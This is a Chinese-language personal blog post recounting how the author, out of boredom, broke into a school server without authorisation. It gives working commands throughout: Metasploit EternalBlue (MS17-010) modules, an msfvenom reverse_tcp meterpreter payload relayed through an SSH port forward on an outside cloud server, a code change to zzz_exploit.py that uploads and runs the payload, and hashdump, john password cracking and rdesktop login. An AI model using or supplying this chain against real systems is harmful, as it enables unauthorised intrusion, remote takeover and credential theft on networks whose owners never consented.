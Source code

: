 ```yaml
---
layout: post
title: '一次黑进学校服务器的经历'
date: 2018-05-30
author: M3chD09
tags: kali ssh
cover: 'https://www.kali.org/wp-content/uploads/2012/12/kali-wallpaper_1024x768-600x400.png'

---
```


>The quieter you become, the more you are able to hear.

闲着无聊，扫了一下学校IP段，发现一堆漏洞，于是突发奇想是不是可以利用一下，搞到一台服务器的管理员权限。  
我把目标锁定在一台漏洞百出的某台服务器上，其中`MS17-010`引起了我的兴趣，上网一查居然是臭名昭著的永恒之蓝漏洞。  

### 初次尝试
我首先用msf的`auxiliary/scanner/smb/smb_ms17_010`扫描，确认存在漏洞。  
然后使用`exploit/windows/smb/ms17_010_eternalblue`进行攻击。  
结果是一个大大的FAIL。  

### 失败原因
对方的IP地址是一个公网IP地址，我的是`192.168.1.x`。
RHOST写公网IP，LHOST写局域网地址，不在同一个网段，就算攻击成功，对方也连接不到我这里来呀。  

### 调整思路
我改用了[python版本的exploit](https://github.com/worawit/MS17-010)。  

#### 远程端口转发
我把自己吃灰的云服务器搬出来，使用SSH远程端口转发：  
在服务器上的`/etc/ssh/sshd_config`最后加上一句`GatewayPorts yes`。  
在本地执行`ssh -R 80:localhost:4444 root@IP`将服务器的80端口转发到本地的4444端口。  

#### 生成一个payload
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=服务器IP LPORT=80 -f exe -o /opt/shell.exe`。  

#### 在msf上启用监听
`msf > use exploit/multi/handler`  
`msf exploit(handler) > set payload windows/meterpreter/reverse_tcp`  
`msf exploit(handler) > set LPORT 4444`  
`msf exploit(handler) > set LHOST 0.0.0.0`  
`msf exploit(handler) > exploit -j`  
#### 修改文件
原来的`zzz_exploit.py`只是在C盘根目录创建一个`pwned.txt`文件，修改它以执行payload完成反向连接。  
在
```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
```
后面加上
```python
	smb_send_file(smbConn, '/opt/shell.exe', 'C', '/shell.exe')     
	service_exec(conn, r'cmd /c  c:\\shell.exe') 
```
最后执行`python zzz_exploit.py IP`成功完成攻击。  

### 维持访问
我第一次成功黑进学校的服务器，面对屏幕上的meterpreter，甚至有点不知所措。  
根据网上的教程，我首先`hashdump`提取了密码散列，然后使用`john`轻松解出了其中一个管理员密码。  
执行`rdesktop -u user -p password IP`成功获取图形化界面。  
既然知道登录账号密码了，就没有必要安装后门程序了。  
我也不打算利用这台服务器做什么坏事，就这样吧。  
![](/assets/img/kali/server-hacked.png)

